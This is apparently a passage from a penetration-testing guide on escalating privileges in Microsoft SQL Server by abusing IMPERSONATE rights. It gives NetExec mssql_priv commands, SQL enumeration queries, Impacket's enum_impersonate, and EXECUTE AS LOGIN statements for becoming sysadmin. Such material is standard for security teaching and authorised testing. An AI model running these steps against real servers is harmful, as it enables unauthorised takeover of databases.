 ### UNIX-Like

From an UNIX-Like host, using [NetExec](https://github.com/Pennyw0rth/NetExec), we can enumerate for impersonation privileges and PrivEsc as follows

```bash
# Enumerate PrivEsc vectors
nxc mssql <TARGET> <TARGET> -u <USER> -p <PASSWORD> -M mssql_priv

# Impersonate PrivEsc
nxc mssql <TARGET> <TARGET> -u <USER> -p <PASSWORD> -M mssql_priv -o ACTION=privesc

# Rollback sysadmin privs
nxc mssql <TARGET> <TARGET> -u <USER> -p <PASSWORD> -M mssql_priv -o ACTION=rollback
```

### Windows

To enumerate users that you can impersonate, run the following queries

```sql
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned
```

We may also use [mssqlclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) from [Impacket](https://github.com/fortra/impacket) to enumerate users that we can impersonate

```bash
SQL (dbo@ScrambleHR)> enum_impersonate
```

If you can impersonate a user, even if he isn't sysadmin, you should check i**f the user has access** to other **databases** or linked servers.

```sql
# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

Note that once you are sysadmin you can impersonate any other one:

```sql
-- Impersonate RegUser
EXECUTE AS LOGIN = 'RegUser'
-- Verify you are now running as the the MyUser4 login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Change back to sa
REVERT
```
{% endtab %}
